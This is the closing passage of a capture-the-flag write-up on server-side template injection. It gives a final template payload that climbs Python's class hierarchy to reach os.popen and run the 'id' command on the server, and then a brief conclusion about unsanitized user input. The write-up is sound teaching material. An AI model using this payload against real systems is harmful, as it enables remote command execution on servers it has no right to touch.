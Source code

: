 As you can see, we are successful in running the `id` command and we can see the output in the response.

Final payload is: 

```
{ { 'Nehal-Hacks-For-Good'.__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.__import__('os').popen('id').read() } }
```

You can look for the flag file now and submit it :)

# CONCLUSION

This challenge is all about how non-sanitized user data can be used to exploit a SSTI vulnerability.

We have looked over general steps of how you can build your own payload for exploiting SSTI without blindly spraying SSTI payloads.

That is all in this challenge.

Hope you liked it.
